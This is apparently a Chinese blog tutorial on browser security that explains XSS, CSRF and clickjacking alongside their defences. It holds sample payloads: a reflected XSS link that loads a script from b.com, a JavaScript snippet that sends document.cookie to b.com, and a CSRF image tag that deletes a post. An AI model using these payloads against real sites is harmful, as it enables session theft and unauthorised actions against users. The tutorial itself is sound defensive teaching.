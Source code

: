 ```yaml
---
layout: post
title: "Web安全技术(4)-浏览器安全"
date: 2015-04-25 22:32
categories: ["Web", "安全"]
---
```


一、跨站脚本攻击（XSS）
-----------------------

跨站脚本攻击的英文全称是Cross Site Script，为了和样式表区分，缩写为XSS。跨站脚本攻击仅发生在动态网站，静态站点完全不受其影响。这是因为动态网站会将用户输入的内容输出到页面上，在这个过程中可能有恶意代码被浏览器执行，造成用户损失。

跨站脚本攻击可以分为两种：

1. 反射型XSS

它是通过诱使用户打开一个恶意链接，服务端将链接中参数的恶意代码渲染到页面中，再传递给用户由浏览器执行，从而达到攻击的目的。如下面的链接：

    http://a.com/a.jsp?name=xss<script>alert(1)</script>

a.jsp将页面渲染成下面的html：

    Hello xss<script>alert(1)</script>

这时浏览器端会弹出提示框。

2. 持久型XSS

持久型XSS将恶意代码提交给服务器，并且存储在服务器端，当用户访问相关内容时再渲染到页面中，以达到攻击的目的，它的危害更大。

比如，攻击者写了一篇带恶意JS代码的博客，文章发表后，所有访问该博客文章的用户都会执行这段恶意JS。

### Cookie劫持 ###

Cookie中一般保存了当前用户的登录凭证，如果可以得到，往往意味着可直接进入用户帐户，而Cookie劫持也是最常的XSS攻击。以上面提过的反射型XSS的例子来说，可以像下面这样操作：

首先诱使用户打开下面的链接：

    http://a.com/a.jsp?name=xss<script src=http://b.com/b.js></script>

用户打开链接后，会加载b.js，并执行b.js中的代码。b.js中存储了以下JS代码：

    var img = document.createElement("img");
    img.src = "http://b.com/log?" + escape(document.cookie);
    document.body.appendChild(img);

上面的代码会向b.com请求一张图片，但实际上是将当前页面的cookie发到了b.com的服务器上。这样就完成了窃取cookie的过程。

__防御Cookie劫持的一个简单的方法是在Set-Cookie时加上HttpOnly标识，浏览器禁止JavaScript访问带HttpOnly属性的Cookie。__

### XSS的防御 ###

1. 输入检查

对输入数据做检查，比如用户名只允许是字母和数字，邮箱必须是指定格式。一定要在后台做检查，否则数据可能绕过前端检查直接发给服务器。一般前后端都做检查，这样前端可以挡掉大部分无效数据。

对特殊字符做编码或过滤，但因为不知道输出时的语境，所以可能会做不适当的过滤，最好是在输出时具体情况具体处理。

2. 输出检查

对渲染到HTML中内容执行HtmlEncode，对渲染到JavaScript中的内容执行JavascriptEncode。

另外还可以使用一些做XSS检查的开源项目。

二、跨站请求伪造（CSRF）
-----------------------

跨站请求伪造的英文全称是Cross Site Request Forgery，是由于操作所需的所有参数都能被攻击者得到，进而构造出一个伪造的请求，在用户不知情的情况下被执行。看下面一个例子：

如果a.com网站需要用户登录后可以删除博客，删除博客的请求地址如下：

    GET http://a.com/blog/delete?id=1

当用户登录a.com后，又打开了http://b.com/b.html，其中有下面的内容：

    <img src="http://a.com/blog/delete?id=1"/>

这时会以用户在a.com的身份发送http://a.com/blog/delete?id=1，删除那篇博客。

### CSRF的防御 ###

1. 验证码

CSRF是在用户不知情产情况下构造的网络情况，验证码则强制用户与应用交互，所以验证码可以很好得防止CSRF。但不能什么请求都加验证码。

2. referer检查

检查请求header中的referer也能帮助防止CSRF攻击，但服务器不是总能拿到referer，浏览器可能出于安全或隐私而不发送referer，所以也不常用。倒是图片防盗链中用得很多。

3. Anti CSRF Token

更多的是生成一个随机的token，在用户提交数据的同时提交这个token，服务器端比对后如果不正确，则拒绝执行操作。

三、点击劫持（ClickJacking）
-----------------------

点击劫持是从视觉上欺骗用户。攻击者使用一个透明的iframe覆盖在一个网页上，诱使用户在该网页上操作，而实际点击却是点在透明的iframe页面。

点击劫持延伸出了很多攻击方式，有图片覆盖攻击、拖拽劫持等。

### 点击劫持的防御 ###

使用一个HTTP头：X-Frame-Options，它有三种可选值：

- DENY： 禁止任何页面的frame加载；
- SAMEORIGIN：只有同源页面的frame可加载；
- ALLOW-FROM：可定义允许frame加载的页面地址。


